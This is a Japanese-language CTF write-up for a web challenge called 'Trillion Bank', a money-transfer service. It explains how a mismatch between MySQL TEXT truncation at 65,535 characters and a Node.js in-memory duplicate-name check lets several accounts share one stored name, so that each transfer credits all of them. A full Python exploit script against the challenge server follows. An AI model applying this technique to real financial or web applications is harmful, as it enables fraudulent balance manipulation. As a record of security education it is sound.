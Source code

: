 # Trillion Bank
ユーザー間で送金ができるWebサービス。ユーザー登録時に残高が10付与されており、ログインしているユーザーの残高が1,000,000,000,000になるとフラグが入手できる。

`/api/register` というエンドポイントではリクエストで指定されたユーザー名でユーザーを作成して、MySQLのDBにINSERTしてしている。
そのユーザー名にあたる `name` カラムはTEXT型であることから、上限である65,535文字以上のユーザー名はすべて65,535文字に切り詰めて登録される。

しかし、この `name` カラムにはユニーク制約が設定されておらず、また、ユーザーの重複チェックが行われてはいるものの、Node.js側の登録されたユーザー名の集合であるSetオブジェクトへのユーザー名の存在有無のみによって判定される。
よって、65,535文字までは同一の文字列、かつ、それ以降は異なる文字列を持つユーザー名のユーザーを複数登録することにより、このユーザー名の重複チェックをバイパスして、DB上では同一ユーザー名を持つユーザーを複数登録することができる。

また、 `/api/transfer` というエンドポイントではDBでのUPDATE操作により、残高を更新しているが、送金先の残高を加算する操作において、指定された送金先ユーザー名に対してUPDATE句が実行される。
```sql
UPDATE users SET balance = balance + ? WHERE name = ?
```
ユーザー登録においては同一ユーザー名を持つユーザーを複数登録できることから、この加算操作は同一のユーザー名を持つ複数のユーザーに対して実行される。

これを利用して送金元のユーザーを変えて加算操作を繰り返すことで、あるユーザーの残高を初期残高である10から倍々に増やすことができる。
次のようなスクリプトを用いてこれを実行することでフラグが獲得できた。

```python
import requests

BASE_URL = 'http://trillion.seccon.games:3000'

s1 = requests.Session()
s2 = requests.Session()

count = 50
c = 'l'
username = c * 65535

sessions = []
for i in range(count):
  s = requests.Session()
  r = s.post(BASE_URL+'/api/register', json={ 'name': username + '3'*i })
  sessions.append(s)

for i in range(count):
  s = sessions[-(1+i)]

  r = sessions[0].get(BASE_URL + '/api/me')
  j = r.json()
  print(j)

  r = s.post(BASE_URL+'/api/transfer', json={ 'recipientName': username, 'amount': j['balance'] })
  print(r.json())

r = sessions[0].get(BASE_URL + '/api/me')
print(r.json())

```